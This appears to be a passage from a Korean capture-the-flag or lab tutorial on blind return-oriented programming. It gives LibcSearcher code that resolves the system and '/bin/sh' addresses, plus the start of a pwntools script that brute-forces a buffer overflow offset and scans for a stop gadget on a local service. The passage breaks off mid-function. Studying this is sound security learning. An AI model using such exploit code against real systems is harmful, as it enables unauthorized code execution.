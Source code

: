 ### **Libc Search**

LibcSearcher 모듈을 이용해 어떤 Libc를 사용하고 있는지 확인 가능하다.

[https://github.com/lieanu/LibcSearcher](https://github.com/lieanu/LibcSearcher)

```
from LibcSearcher import *
 
lib = LibcSearcher('puts', addr_puts_libc)
libcBase = addr_puts_libc - lib.dump('puts')
system_addr = libcBase + lib.dump('system')
binsh_addr = libcBase + lib.dump('str_bin_sh')
 
log.info('libc base : ' + hex(libcBase))
log.info('system : ' + hex(system_addr))
log.info('binsh : ' + hex(binsh_addr))
```

## **Exploit Code**

```python
from pwn import *
from LibcSearcher import *

ip = '127.0.0.1'
port = 10001
base = 0x400000

def check_overflow():
	size=0
	i=0
	while True:
		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline('a'*i)
		try:
			recv = r.recvline()
		except Exception as e:
			r.close()
			size = i-1
			break
		r.close()
		i+=1
	return size

def find_stop_gadget(size):
	p = log.progress("Searching for Stop Gadget")

	for offset in range(0x0,0x1000):
		addr = int(base + offset)

		payload = 'A' * size
		payload += p64(addr)

		if offset % 0x100 == 0:
			log.info('Progress to 0x%x' % offset)
	
		try:
			r = remote(ip,port,level='error')
			r.recvline()
			r.send(payload)
			recv = r.recv(timeout=0.2)
			r.close()

```